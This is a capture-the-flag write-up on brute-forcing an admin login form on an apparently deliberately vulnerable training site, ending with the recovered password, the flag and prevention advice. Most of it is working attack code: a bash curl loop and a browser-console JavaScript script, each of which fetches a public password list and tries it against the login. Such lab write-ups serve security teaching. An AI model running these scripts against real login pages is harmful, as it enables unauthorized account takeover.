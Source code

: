 # Brute Force Authentication Vulnerability

## Overview
The login form at `/?page=signin` is vulnerable to brute force attacks, allowing attackers to guess admin credentials with no rate limiting.

---

## How It Works

1. **Finding the Target:**  
   In a previous breach, we gained access to the members page, which revealed that "admin" is a valid username.
2. **Attack:**  
   Login requests are sent like this:
   ```
   /?page=signin&username=admin&password=<PASSWORD>&Login=Login
   ```
   A failed login shows "WrongAnswer.gif".

---

## Exploitation Methods

### **Method 1: Bash Script with Password List**

- Download a password list from GitHub:
  ```bash
  wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt -O pwdlist.txt
  ```
- Use this brute force loop:
  ```bash
  for pwd in $(cat pwdlist.txt); do
    resp=$(curl -s "http://<IP_ADDRESS>/?page=signin&username=admin&password=$pwd&Login=Login")
    if [[ "$resp" == *"The flag is :"* ]]; then
      flag=$(echo "$resp" | awk -F 'The flag is :' '{print $2}' | head -n1 | cut -c2-65)
      echo "Success! Username: admin | Password: $pwd | Flag: $flag"
      break
    fi
  done
  ```
- Password `shadow` is found to work.

---

### **Method 2: JavaScript in Google Chrome Console**

1. Open the login page in Chrome.
2. Open Developer Tools (F12), go to the **Console** tab.
3. Paste and run this script (it fetches the same password list from GitHub and tries each password for you):

   ```javascript
   // URL to password list on GitHub
   const passwordListUrl = 'https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt';

   // Format current time
   const getCurrentTime = () => {
     const now = new Date();
     return now.toISOString().split('T')[0] + ' ' + now.toTimeString().split(' ')[0];
   };

   // Try a single password
   async function tryPassword(password) {
     try {
       const timestamp = getCurrentTime();
       console.log(`[${timestamp}] Testing: "${password}"`);
       
       const url = `index.php?page=signin&username=admin&password=${encodeURIComponent(password)}&Login=Login`;
       const response = await fetch(url);
       const html = await response.text();
       
       // Check for login success (no error image)
       if (!html.includes('WrongAnswer.gif')) {
         // Extract flag if present
         const flagMatch = html.match(/The flag is : ([a-f0-9]+)/i);
         const flag = flagMatch ? flagMatch[1] : 'Not found';
         
         console.log(`✅ SUCCESS! Password: "${password}", Flag: ${flag}`);
         
         // Display flag in a box
         console.log(`
   ┌${'─'.repeat(flag.length + 10)}┐
   │  🚩 FLAG: ${flag}  │
   └${'─'.repeat(flag.length + 10)}┘
         `);
         
         return true;
       }
       return false;
     } catch (error) {
       console.log(`⚠️ Error with "${password}": ${error.message}`);
       return false;
     }
   }

   // Fetch passwords from GitHub
   async function fetchPasswords() {
     try {
       console.log(`Fetching passwords from GitHub...`);
       const response = await fetch(passwordListUrl);
       
       if (!response.ok) {
         throw new Error(`Failed to fetch: ${response.status}`);
       }
       
       const text = await response.text();
       const passwords = text.split('\n')
         .map(pwd => pwd.trim())
         .filter(pwd => pwd.length > 0);
       
       console.log(`Fetched ${passwords.length} passwords`);
       return passwords;
     } catch (error) {
       console.log(`Error fetching passwords: ${error.message}`);
       // Fallback to some basic passwords if GitHub fetch fails
       return ['admin', 'password', '123456', 'shadow', 'root'];
     }
   }

   // Test all passwords with small delay
   async function bruteForce() {
     console.log(`Starting brute force attack at ${getCurrentTime()}...`);
     
     // Get passwords from GitHub
     const passwords = await fetchPasswords();
     
     for (const password of passwords) {
       // Add small delay to avoid overwhelming server
       await new Promise(resolve => setTimeout(resolve, 30));
       
       // Stop if successful
       if (await tryPassword(password)) {
         break;
       }
     }
     
     console.log(`Brute force completed at ${getCurrentTime()}`);
   }

   // Start the brute force
   bruteForce();

   // Utility to test individual passwords
   window.testPassword = (password) => tryPassword(password);
   ```

---

## Result

- **Username:** admin  
- **Password:** shadow  
- **Flag:** `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`

---

## Prevention

1. **Account Lockout:** Temporarily disable accounts after multiple failures.
2. **Strong Password Policy:** Require complex, non-common passwords.
3. **MFA:** Add Multi-Factor Authentication for all users.
4. **CAPTCHA:** Use CAPTCHA after failed logins.
5. **Rate Limit:** Restrict login attempts per IP.
6. **Monitoring:** Alert on brute force patterns.

---

## Resources

- Password list source:  
  [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt)
